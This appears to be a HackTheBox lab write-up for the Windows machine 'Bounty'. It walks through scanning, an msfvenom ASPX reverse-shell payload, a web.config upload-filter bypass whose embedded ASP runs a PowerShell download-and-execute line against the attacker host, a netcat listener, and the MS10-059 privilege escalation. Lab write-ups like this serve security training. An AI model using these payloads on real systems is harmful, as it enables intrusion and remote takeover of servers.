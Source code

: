 ```yaml
---
title: "HackTheBox - Bounty"
author: Nasrallah
description: ""
date: 2023-05-23 00:00:00 +0000
categories : [HackTheBox, Machines]
tags: [hackthebox, windows, easy, upload, aspx, kernel]
img_path: /assets/img/hackthebox/machines/bounty
---
```


<div align="center"> <script src="https://www.hackthebox.eu/badge/565048"></script> </div>

---


# **Description**

Hello hackers, I hope you are doing well. We are doing [Bounty](https://app.hackthebox.com/machines/) from [HackTheBox](https://www.hackthebox.com).

![](0.png)

# **Enumeration**

## nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.10.10.93
Host is up (0.10s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-title: Bounty
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

We only found port 80 open and it's Microsoft IIS http 7.5 web server.

## Web

Let's navigate to the web page.

![](1.png)

Nothing interesting.

### Feroxbuster

Let's run a directory scan and add the extension `aspx` since this is `IIS`.

```terminal
$ feroxbuster -w /usr/share/wordlists/dirb/common.txt -x aspx -u http://10.10.10.93/ -n                                                              1 ⨯

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.7.2
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.10.10.93/
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/wordlists/dirb/common.txt
 👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405, 500]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.7.2
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 💲  Extensions            │ [aspx]
 🏁  HTTP methods          │ [GET]
 🚫  Do Not Recurse        │ true
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
200      GET       32l       53w      630c http://10.10.10.93/
301      GET        2l       10w      156c http://10.10.10.93/aspnet_client => http://10.10.10.93/aspnet_client/
200      GET       22l       58w      941c http://10.10.10.93/transfer.aspx
301      GET        2l       10w      156c http://10.10.10.93/uploadedfiles => http://10.10.10.93/uploadedfiles/
[####################] - 50s     9228/9228    0s      found:4       errors:0      
[####################] - 50s     9228/9228    184/s   http://10.10.10.93/ 
```

We found an upload directory and a page at `transfer.aspx`, let's check it out.

![](2.png)

It's an upload page. The next thing to do it upload an aspx reverse shell.

### msfvenom

Let's generate the payload using `msfvenom`.

```terminal
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.17.90 LPORT=9999 -f aspx -o revshell.aspx
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of aspx file: 3427 bytes
Saved as: revshell.aspx                
```

Now let's upload it.

![](3.png)

Invalid file, there must be a filter.

# **Foothold**

After some research I found that we can upload a web.config file that contains the aspx script, check [here](https://web.archive.org/web/20150328012634/https://soroush.secproject.com/blog/2014/07/upload-a-web-config-file-for-fun-profit/) for more.

The `web.config` file looks like the following:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />         
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
```

Now we add to it the following code that will download the `Invoke-PowershellTcp.ps1`

```powershell
<%
Set obj = CreateObject("WScript.shell")
obj.Exec("cmd /c powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.17.90/Invoke-PowershellTcp.ps1')")
%>
```

We setup the webserver and a listener then upload the file and request it at `http://10.10.10.92/uploadedfiles/web.config`


```terminal
 $ nc -lvnp 9001 
listening on [any] 9001 ...
connect to [10.10.17.90] from (UNKNOWN) [10.10.10.93] 49158
Windows PowerShell running as user BOUNTY$ on BOUNTY
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\windows\system32\inetsrv>whoami
bounty\merlin
```

We got a shell as `merlin`.

# **Privilege Escalation**

Let's check our privileges.

```terminal
PS C:\windows\system32\inetsrv> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
PS C:\windows\system32\inetsrv> 
```

The `SeImpersonatePrivilege` is enabled, but i tried multiple exploit but no luck

Next we run `windows-exploit-suggester`

![](4.png)

It gave us multiple exploits to try, the one I had luck with before is [MS10-059](https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS10-059/MS10-059.exe)

![](5.png)

Great! We got SYSTEM.


# **Resources**

[https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/iis-internet-information-services#execute-.config-files](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/iis-internet-information-services#execute-.config-files)

[https://web.archive.org/web/20150328012634/https://soroush.secproject.com/blog/2014/07/upload-a-web-config-file-for-fun-profit/](https://web.archive.org/web/20150328012634/https://soroush.secproject.com/blog/2014/07/upload-a-web-config-file-for-fun-profit/)

[https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS10-059/MS10-059.exe](https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS10-059/MS10-059.exe)

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).